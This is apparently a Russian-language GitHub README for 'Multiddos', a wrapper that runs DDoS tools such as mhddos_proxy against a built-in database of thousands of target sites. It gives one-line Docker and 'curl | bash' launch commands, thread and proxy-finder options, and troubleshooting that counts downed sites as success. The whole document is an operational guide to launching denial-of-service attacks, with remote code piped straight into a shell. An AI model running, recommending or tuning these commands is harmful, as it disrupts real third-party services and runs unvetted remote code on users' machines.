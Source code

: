 # **Multiddos - скрипт объединяющий в себе несколько утилит для ddos**

![multiddos](https://user-images.githubusercontent.com/53382906/161972523-a1197762-a166-45f2-9b68-6e13cc940d99.gif)

### **Особености**:
* Объединяет в себе несколько утилит для ддоса, и для мониторинга (gotop, vnstat)
* Полностью автоматизирован. Автоматическое обновление программ, автоматическая настройка, автоматическая смена целей.
* Запуск одной простой командой.
* При закрытии терминала или разрыве ssh сессии программы не вылетают, а продолжают работать в фоне. В любой момент multiddos можно снова вывести на экран.
* Автоматически подбирает количество потоков (threads) для работы, в зависимости от количества доступных логических ядер.
* Имеет базу на несколько тысяч сайтов/адресов.

### **На данный момент скрипт поддерживает:**
* [Multiddos](https://github.com/KarboDuck/multiddos), ранее известный как auto_mhddos (обвертка для mhddos_proxy) от Украинского Жнеца ([канал](https://t.me/ukrainian_reaper_ddos), [чат](https://t.me/+azRzzKp-STpkMjNi))
* ~~[db1000n ](https://github.com/Arriven/db1000n) от IT ARMY of Ukraine ([канал](https://t.me/itarmyofukraine2022), чат)~~ временно отключено
* ~~[UA Cyber SHIELD](https://github.com/opengs/uashield) ([канал](https://t.me/uashield), чат)~~ временно отключено

### **Пояснение к выбору конкретных утилит**
<details>
<summary>развернуть</summary>
 
Мы хотели собрать утилиты, которые:
* Можно полностью автоматизировать
* Имеют хорошую эффективность и поддерживаются разработчиками
* Умеют работать через прокси

Полностью данным требованиям соответствует только mhddos_proxy. DB1000N не умеет работать через прокси. UAShield прожорливая и низкоэффективная по сравнению с mhddos_proxy. Поэтому на данном этапе по умолчанию используется только mhddos_proxy.
 
</details>

---
# **Multiddos в docker. Рекомендуется.** (Win, Mac, Linux)

### **Запуск**

1. Скачать и установить [Docker](https://docs.docker.com/get-docker/)

2. Запустить multiddos в docker:
```
docker run -it --rm --log-driver none --name multidd --pull always karboduck/multidd
```
* Альтернативный запуск для слабых систем. Будет использоваться только 1 ядро на 90% (использовать если процессор забивается на 100% и система тормозит). <details> docker run --cpus 0.9 -it --rm --log-driver none --name multidd --pull always karboduck/multidd

* Если вам нужно запустить несколько копий multiddos. <details> Используйте разные имена (--name multidd1, --name multidd2 и т.д.), либо не используйте имена вообще

* Запуск docker c ключами. <details> Docker версия поддерживает те же ключи, что и bash версия. Прописывайте их точно так же в конце команды. `docker run -it --rm --log-driver none --name multidd --pull always karboduck/multidd -t 500 +v` Подробнее про ключи читайте ниже в разделе **Выбор конфигурации**.

### **Остановка**
1. Нажать в окне несколько раз подряд `Ctrl + C`
2. В другом терминале запустить команду `docker stop multidd`
3. Перезагрузить операционную систему

### **Подключиться обратно, если скрипт работает в фоне**
```
docker attach multidd
```

---
# **Multiddos в bash** (Linux, WSL2)

### **Запуск**

```
curl -L tiny.one/multiddos | bash && tmux a
```

### **Запуск в фоне**
<details>
  <summary>развернуть</summary>
  
То же самое что и обычный запуск, но программы не будут выводиться из фона. Соответственно просто удаляем вызов Tmux в конце команды.

```
curl -L tiny.one/multiddos | bash
```
Чтобы обратно подключиться к сессии tmux (вывести программы на экран) прочитайте раздел **Управление Tmux**.
 
</details>

### **Остановка**:
1. Нажать в окне несколько раз подряд `Ctrl + C`
2. В другом терминале запустить команду `pkill tmux; pkill node; pkill shield; pkill -f start.py; pkill -f runner.py`
3. Перезагрузить операционную систему

### **Подключиться обратно, если скрипт работает в фоне**
```
tmux a
```
---
# **Управление Tmux**
<details>
  <summary>развернуть</summary>

* **Свернуть Tmux**. Программы продолжат работать в фоне, и к сессии можно будет позже снова подключиться. `Нажмите Ctrl+b` отпустите `Нажмите d`

* **Закрыть сессию Tmux**. Сначала выйдите из Tmux: `Нажмите Ctrl+b` отпустите `Нажмите d`. Выполните в терминале команду `tmux kill-session -t multiddos`

* **Переподключиться к сессии Tmux**. Если у вас всего одна сессия Tmux, то используйте: `tmux a` (tmux attach). Если у вас несколько сессий, подключайтесь по имени: `tmux attach-session -t multiddos`
</details>

# **Опции запуска**

<details>
  <summary>развернуть</summary>
  
Multiddos запускается по умолчанию с gotop и multiddos. Это стандартная конфигурация. Из этой конфигурации можно убрать gotop. Или добавить в нее утилиты: db1000n, uashield, vnstat, matrix.

Для того, чтобы убрать утилиту используется ключ со знаком "-":

`-g` убрать gotop

Для того, чтобы добавить утилиту используется ключ со знаком "+":

`+d` убрать db1000n

`+u` добавить uashield

`+v` добавить vnstat -l (мониторинг трафика)

`-p0` или `--no-proxy-finder` отключить proxy finder

`-p 2000` или `--proxy-threads 2000` задать количество потоков для proxy finder. Чем выше значение, тем быстрее происходит сканирование и поиск новых прокси, но тем и выше нагрузка на CPU и сеть. Поэтому при больших значениях может падать скорость атак.

`-t 500` или `--threads 500` задать количество потоков для mhddos_proxy. 

Пример команды (убрать gotop и включить 2000 потоков для proxy finder):

```
curl -LO tiny.one/multiddos && bash multiddos -g -p 2000 && tmux a
```

</details>

# **Решение проблем**
<details>
  <summary>развернуть</summary>

1.
Основная проблема - перебои в работе сетевого адаптера. Особенно часто проявляется при запуске скрипта на виртуальной машине. Ддос пакеты влияют не только на удаленные сервера, но и на локальное железо.

Внешние проявления могут самыми разнообразными, нелогичными и на первый взгляд не связанными с сетью. Но, если скрипт не запускается, просто перезапустите систему и попробуйте снова. Едва ли не в 80% случаев это решает проблемы.

2.
Вылетает db1000n или uashield.

Это либо опять побочка проблем с сетью, смотрите пункт выше. Либо сбой самих программ, с чем мы ничего поделать не можем. Хорошая новость заключается в том, что 95% полезной работы выполняет mhddos_proxy. Пока он не вылетает, все идет по плану. 
 
3.
Низкий трафик.
В подавляющем большинстве случаев это значит, что атакуемые сайты либо уже лежат, либо их закрыли гео-блоком (отгородили от внешнего мира). Это нормально, наши атаки все равно приносят пользу, продолжаем работать.

</details>